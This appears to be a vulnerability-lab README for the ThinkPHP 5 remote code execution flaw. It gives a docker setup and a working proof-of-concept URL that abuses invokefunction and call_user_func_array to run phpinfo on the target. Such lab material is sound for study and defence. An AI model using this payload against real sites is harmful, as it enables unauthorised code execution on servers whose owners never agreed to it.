

# Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5, as the framework processes controller name incorrectly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability.

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：


